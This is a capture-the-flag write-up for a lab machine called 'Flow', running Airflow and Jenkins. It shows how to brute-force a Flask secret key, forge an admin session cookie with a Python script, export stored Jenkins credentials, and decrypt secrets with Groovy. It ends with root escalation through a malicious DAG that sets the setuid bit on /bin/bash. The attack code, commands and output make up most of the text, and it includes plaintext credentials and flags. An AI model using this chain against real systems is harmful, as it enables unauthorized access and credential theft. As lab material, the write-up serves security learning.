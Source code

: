 # Flow
```
Nmap scan report for flow.htb (10.129.172.173)
Host is up (0.082s latency).
Scanned at 2021-07-24 02:37:27 CEST for 341s
Not shown: 65532 closed ports
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
8000/tcp open  http    Gunicorn 20.0.4
| http-methods: 
|_  Supported Methods: GET OPTIONS HEAD
|_http-server-header: gunicorn/20.0.4
| http-title: Airflow
|_Requested resource was http://flow.htb:8000/login/?next=http%3A%2F%2Fflow.htb%3A8000%2Fhome
8080/tcp open  http    Jetty 9.4.39.v20210325
|_http-favicon: Unknown favicon MD5: 23E8C7BD78E8CD826C5A6073B15068B1
| http-robots.txt: 1 disallowed entry 
|_/
|_http-server-header: Jetty(9.4.39.v20210325)
|_http-title: Site doesn't have a title (text/html;charset=utf-8).
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
On port 8080 the web server is hosting a Jenkins. Unfortunately default credentials doesn't work.

On port an Airflow application is also prompting us for credentials.

![Airflow login](img/login_airflow.png "Airflow login")

When trying to connect on this interface we noticed the web server assigned us a flask cookie. We tried to bruteforce the cookie secret key using flask-unsign and it was successful:

```
Tue Jul 27 00:47:21 wil@pwn:~/htb/business_ctf/boxes/flow$ flask-unsign -c '.eJx9kEFPwzAMhf9KlXO1toOOphLijAQSJy5oqtzUSSO8pEo8yjTx3zEgcYKdEr9879nOWQ2WIM-YVf9yVgXLoVZIwQenSnUf3oD8VFB0PmyKJ0LIWHA6FeBAFLX_2JcSkTDPqrdAGaVcMB0gYJAwTkdRTE524PiKQfXKbnUzoumaG41oNWzbdjd2ur3qtFwb3TTmGo3ZSfsJ3JAZ-JgH64kxiR2I5IWiAUIpJbJUCzgcZp85ptPXAjPz0leVpbhuZh77rq7rSnaoSJjq7ht_iO4xTkjPHtfbWkL-NL2bePhx_UcsMdJlwsQQ0LCP4TL3O6D86id-9oYb.YP87aA.XhCS-DqQkiEOiZKSHxJVb0RTYvY' -w all.txt -u
[*] Session decodes to: {'_flashes': [('warning', 'Invalid login. Please try again.')], '_fresh': False, '_permanent': True, 'csrf_token': 'f291bec8179eef9a2556b8953892551911c4ecc6', 'dag_status_filter': 'all', 'locale': 'en', 'page_history': ['http://flow.htb:8000/log/list/?page_LogModelView=0', 'http://flow.htb:8000/xcom/list/', 'http://flow.htb:8000/pool/list/', 'http://flow.htb:8000/connection/list/', 'http://flow.htb:8000/log/list/']}
[*] Starting brute-forcer with 8 threads..
[*] Attempted (9600): (H`_key=2499d4a4f8ad842fb5ed41
[+] Found secret key after 36096 attempt
'temporary_key'
```
When analyzing the front page source code we can see the Flask-AppBuilder is used:
```
<!-- Adapted from: https://github.com/dpgaspar/Flask-AppBuilder/blob/master/flask_appbuilder/templates/appbuilder/flash.html -->
<link rel="stylesheet" type="text/css" href="/static/css/flash.css">

<!-- Split messages into two arrays: one for regular alerts, another for DAG import errors -->
```
By digging in this repository we were looking for the user session management. requirements.txt file shows the flask-login library: https://github.com/dpgaspar/Flask-AppBuilder/blob/master/requirements.txt#L17.

By overlooking at flask-login cookie's attributes we saw the field `user_id` was used to identify users: https://github.com/maxcountryman/flask-login/blob/0.4.1/flask_login/login_manager.py#L311.

We forged our own flask cookie we the following python code:

```python
#!/usr/bin/env python3

from itsdangerous import URLSafeTimedSerializer, TimestampSigner
from flask_unsign.helpers import LegacyTimestampSigner
from flask.json.tag import TaggedJSONSerializer
import hashlib
import requests

def sign(value: dict, secret: str, legacy: bool = False, salt: str = "cookie-session"):
    return get_serializer(secret, legacy, salt).dumps(value)

def get_serializer(secret: str, legacy: bool, salt: str):
    if legacy:
        signer = LegacyTimestampSigner
    else:
        signer = TimestampSigner

    return URLSafeTimedSerializer(
        secret_key=secret,
        salt=salt,
        serializer=TaggedJSONSerializer(),
        signer=signer,
        signer_kwargs={
            'key_derivation': 'hmac',
            'digest_method': hashlib.sha1})


payload = {'_fresh': False, '_permanent': True, 'csrf_token': 'f291bec8179eef9a2556b8953892551911c4ecc6', 'locale': 'en','user_id':"1"}
cookie = sign(payload, "temporary_key")
print(cookie)
```

```bash
Tue Jul 27 00:52:17 wil@pwn:~/htb/business_ctf/boxes/flow$ ./signer2.py 
.eJwNi8EOwiAQBf9lz1y2SmX5GULXR2pEahZ6avx3uc1MMhelYug7xZJrh6P0hX1yQxsUh52zaLeSxvFGo0hlEd6ggR8CFMmL9-sWxN-CTGRh1jtUV3JUD80V85mjo7PD0us5len3B_hYJJA.YP88ww.mqaoAXLqq4po1q0p66xPG8NFg8I
```

By changing the cookie in our browser, we sucessfully obtain an admin session. While crawling the application we were looking for juicy information such as password. The Jenkins password was indeed in the application. It was in the Admin/Variables menu. Cleartext passwords can be obtained by exporting them:


![Getting credentials](img/get_password.png "Getting credentials")

The exported file contains the credentials:
```
{
    "JENKINS_BUILD_PASSWORD": "sVLfGQzHyW8WM22"
}
```

By checking the logs in Browse/Logs menu we can obtained a list of user (amelia or root).

The credentials root:sVLfGQzHyW8WM22 were working on the Jenkins login portal port 8080.

Running a groovy script we found amelia credentials.
![Amelia password](img/amelia_password.png "Amelia password")
Another groovy script can retrieve amelia credentials. These credentials can be used on SSH to get user flag.
```
println(hudson.util.Secret.decrypt("{AQAAABAAAAAg+HUDOG0OqnfR1ExuHUvv0Qb/0QDNMPmncSVOHYZFSJHSNn/RFDjy9MU6JdEoxgy0}"))
v]C:ZZ6*pmv6jgBJ

ssh amelia@flow.htb
amelia@flow:~$ cat user.txt
HTB{w4tch_0ut_th0s3_0ld_v3rs10ns}
```

The note.txt in the user folder suggest to drop dags files in `/opt/dags` and they will be proceed. We also can run `sudo airflow` which will process the dags files. We noticed we could hijack a python library, here `os`.
We just need to submit a dag file with a valid syntax, this can be found on the following [tutorial](https://www.invivoo.com/en/creating-your-first-apache-airflow-dag/).


```
amelia@flow:/opt/dags$ cat osef.py
import os
os.system("chmod +s /bin/bash")

from airflow import DAG
from airflow.operators.bash_operator import BashOperator
from airflow.utils.dates import days_ago


default_args = {
    'owner': 'airflow',
    'start_date': days_ago(5),
    'email': ['airflow@my_first_dag.com'],
    'email_on_failure': False,
    'email_on_retry': False,
    'retries': 1,
    'retry_delay': timedelta(minutes=5),
}

my_first_dag = DAG(
    'first_dag',
    default_args=default_args,
    description='Our first DAG',
    schedule_interval=timedelta(days=1),
)


amelia@flow:/opt/dags$ sudo airflow backfill osef -s 2020-03-01 -e 2022-03-05
[2021-07-26 23:17:03,177] {__init__.py:50} INFO - Using executor SequentialExecutor
[2021-07-26 23:17:03,177] {dagbag.py:417} INFO - Filling up the DagBag from /root/airflow/dags
[2021-07-26 23:17:03,184] {dagbag.py:259} ERROR - Failed to import: /root/airflow/dags/osef.py
Traceback (most recent call last):
  File "/usr/local/lib/python3.8/dist-packages/airflow/models/dagbag.py", line 256, in process_file
    m = imp.load_source(mod_name, filepath)
  File "/usr/lib/python3.8/imp.py", line 171, in load_source
    module = _load(spec)
  File "<frozen importlib._bootstrap>", line 702, in _load
  File "<frozen importlib._bootstrap>", line 671, in _load_unlocked
  File "<frozen importlib._bootstrap_external>", line 783, in exec_module
  File "<frozen importlib._bootstrap>", line 219, in _call_with_frames_removed
  File "/root/airflow/dags/osef.py", line 16, in <module>
    'retry_delay': timedelta(minutes=5),
NameError: name 'timedelta' is not defined
Traceback (most recent call last):
  File "/usr/local/bin/airflow", line 37, in <module>
    args.func(args)
  File "/usr/local/lib/python3.8/dist-packages/airflow/utils/cli.py", line 80, in wrapper
    return f(*args, **kwargs)
  File "/usr/local/lib/python3.8/dist-packages/airflow/bin/cli.py", line 188, in backfill
    dag = dag or get_dag(args)
  File "/usr/local/lib/python3.8/dist-packages/airflow/bin/cli.py", line 163, in get_dag
    raise AirflowException(
airflow.exceptions.AirflowException: dag_id could not be found: osef. Either the dag did not exist or it failed to parse.

amelia@flow:/opt/dags$ ls -la /bin/bash
-rwsr-sr-x 1 root root 1183448 Jun 18  2020 /bin/bash
amelia@flow:/opt/dags$ bash -p
bash-5.0# cat /root/root.txt
HTB{d0nt_run_4rb1tr4ry_d4gs}
```